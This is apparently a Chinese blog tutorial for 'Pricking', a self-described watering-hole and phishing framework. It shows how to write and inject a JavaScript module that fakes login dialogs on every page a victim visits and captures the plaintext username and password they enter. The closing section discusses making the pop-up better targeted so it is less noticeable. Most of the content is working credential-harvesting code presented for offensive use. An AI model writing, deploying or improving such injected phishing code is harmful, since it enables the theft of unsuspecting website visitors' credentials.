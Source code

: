 ```yaml
---
title: Pricking 项目（二） ：JS模块开发
layout: post
date: '2021-02-18'
permalink: "/archivers/2021-02-18/2"
description:  Pricking 是一个自动化部署水坑和网页钓鱼的开源项目，本文介绍Pricking项目的JS模块开发。
---
```


> 视频介绍：[bv1SK4y1n7xx](https://www.bilibili.com/video/bv1SK4y1n7xx)

## 0x00 目录结构介绍


```
.
├── access.log # 日志文件
├── docker-compose.yml # 容器配置文件
├── README.md  # 说明文档
└── static  # 静态文件夹
    ├── index.html # 测试页面
    ├── modules # JS模块目录
    │   └── cookie.js  # cookie相关模块
    ├── README.md  # JS模块文档
    └── static.js  # 主静态文件，会被默认加载到页面中

2 directories, 7 files
```
## 0x01 新建模块 - 窃取凭证

首先用VScode打开项目目录，在modules中新建一个`getpass.js`文件：

![2021-02-18-01-05-16](https://rvn0xsy.oss-cn-shanghai.aliyuncs.com/91f74f861a47b14a69d9a40596642ffb.png)

写入代码：

```js
/*
模拟一个对话框
prompt("请输入账号：")

用户输入 账号
用户输入 密码

保存凭证

*/

export function getPassword(u_info, p_info){

    var cert = new Object();
    cert.username = null;
    cert.password = null;

    while(cert.username == null || cert.username == "" ){
        cert.username = prompt(u_info);
    }

    while(cert.password == null || cert.password == ""){
        cert.password = prompt(p_info);
    }

    return cert;
}
```

最后在`static.js`中引入：

![2021-02-18-01-07-02](https://rvn0xsy.oss-cn-shanghai.aliyuncs.com/7a4050bb1bbc64687ea77fd0b6482a20.png)


```js
import * as GetPassword from "./modules/getpass.js"
console.log(GetPassword.getPassword("请输入账号：", "请输入密码："));
```

查看站点：

![2021-02-18-01-09-04](https://rvn0xsy.oss-cn-shanghai.aliyuncs.com/424eedccafdde55ecbf8152c96b831fe.png)

访问页面就会自动弹出提示框，当完成输入后，控制台会打印明文账号密码。

![2021-02-18-01-10-02](https://rvn0xsy.oss-cn-shanghai.aliyuncs.com/4d15d223c8c24d184c4004a20b5801e6.png)

## 0x02 窃取凭证模块的思考

现阶段大部分网站已经解决了明文传输的问题，基本上很多都是通过JS进行加密，这让获取明文密码变得更加“麻烦了点”。

上述演示的模块是在每一个HTTP请求中都会执行，肯定是不友好的，因此可以根据判断页面内容来进行弹出，还需要不断优化。

